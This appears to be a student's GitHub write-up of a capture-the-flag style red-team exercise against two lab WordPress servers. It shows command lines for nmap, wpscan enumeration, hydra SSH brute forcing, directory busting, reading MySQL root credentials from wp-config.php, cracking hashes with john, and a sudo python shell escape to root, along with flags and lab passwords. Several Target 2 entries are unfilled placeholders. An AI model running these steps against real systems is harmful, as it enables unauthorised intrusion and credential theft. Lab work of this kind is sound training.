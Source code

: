 # WordPressRedTeam_BlueTeam

The network depicted below was used to test exploits and determine vulnerabilities within the WordPress servers.
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/Final%20Proj%20Topology%20(Updated).png)
Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

# Exposed Services

The nmap scan outlined below identifies the potential points of entry:

nmap $ nmap -sC -sV 192.168.1.110

Target 1:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/nmap%20vm1.png)

nmap $ nmap -sC -sV 192.168.1.115

Target 2:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/NMAP%20final%20Project.png)

# Critical Vulnerabilities

The following vulnerabilities were identified on each target:

Target 1
- CVE-2019-12215 Full Path Disclosure (192.268.1.110/var/www/html/vendor)
- CVE-2019-15653 html password disclosure - The password hash is viewable in plaintext (192.168.1.110/service.html)
- Wpscan exposed username which allowed brute force of password information.  User access to the wp-config.php file via nano.  This exposed the root user and password.

Target 2
- CVE-2019-12215 Full Path Disclosure (192.168.1.115/vendor/PATH)
- CVE-2015-8476 Php mailer (192.168.1.115/vendor/PHPMailerAutoload.php)

# Exploitation

The Red Team was able to penetrate both Target 1 and Target 2 and retrieve the following confidential data:

Target 1

Before we began, we ran an enumeration scan to uncover the users and hidden directories within the Target.  
- Command used: wpscan --url http://192.168.1.110/wordpress --wp-content-dir -at -eu 
- This command uncovered user names steven and michael.  
   ![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/VM1%20wpscan%20michael.png)

- Once I obtained the usernames I was able to run a hydra command to obtain the password.  As noted above, port 22 is open so I wanted to obtain the password that could be used to SSH into the machine.
- Command used: hydra -l michael -P /usr/share/john/password.lst -vV 22:192.168.1.110
- This command exposed "michael" as the password for the username "michael".  Utilizing ssh michael@192.168.1.110 with password "michael" I was able to gain access to Target 1.  
   
- flag1.txt: 9bbcb33e11b80be759c4e844862482
   - dirbuster was used to uncover the file path that led to the flag exposure.  http://192.168.1.110/service.html.  Utilizing inspector it was uncovered the flag was exposed in plain text.
   - dirbuster command: dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.110
   
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/flag%201%20vm1.png)
     
- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
   - gobuster exposed directory path (flag was discovered at 192.168.1.110/vendor/PATH)
   - gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.110 
   
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/gobuster%20vm1.png)
     
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/VM2%20Index_Vendor.png)
     
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/dirbuster%20path%20to%20flag2.png)    
     
- flag3.txt: afc01ab56b50591e7dccf93122770cd2
  - I was able to expose the username and password for the MySQL database once I discovered I had access to the wp-config.php file while logged in as michael.
  
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/nano%20wp-config.png) 
    
![TODO:](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/Find%20IP%20for%20mysql.png) 
    
- command: mysql -u root -p wordpress   
- Once I entered this command it prompted me to enter my password.  Using the root password above I was able to login to the mysql database.  
- From there I searched through the tables to see if I found anything interesting.  I found what I was looking for by running the following commands:
  - -> show databases; -> use wordpress -> show tables; -> select * from wp_posts
  - Flag 3 was exposed with this step.  

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/Flag%203.png)

- flag4.txt: 715dea6c055b9fe3337544932f2941ce
  - I used the following commands to exposer the usernames and hash values of the user table:
  ->show tables; -> select * from wp_users; -> 
  
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/wp%20users%20steven%20VM1.png)
  
   - john hash.txt to translate steven’s hash into password “pink84” -> logged in with steven’s credentials and then ran bin/bash command  to gain root
   - ssh steven@192.168.1.110 -> sudo /usr/bin/python -> import os -> os.system(‘ /bin/bash’) -> ls -> cat flag4.txt

Target 2
- flag1.txt: a2c1f66d2b8051bd3a5874b5b6e43e21
 - Exploit Used 
   ![TODO:](html) gobuster - exposed directory path (flag was discovered at 192.168.1.115/vendor/PATH)
   ![TODO:](html) gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115
- flag2.txt: 
 - Exploit Used
   ![TODO:](html) Identify the exploit used.
   ![TODO:](html) Include the command run.
- flag3.txt:  a0f568aa9de277887f377887f37730d71520d9b
 - Exploit Used
   ![TODO:](html) dirbuster - exposed directory path (flag was discovered at 192.168.1.115/wordpress/wp-content/uploads/2018/11/)
   ![TODO:](html) dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.115
- flag4.txt: 
 - Exploit Used
   ![TODO:](html) Identify the exploit used.
   ![TODO:](html) Include the command run.

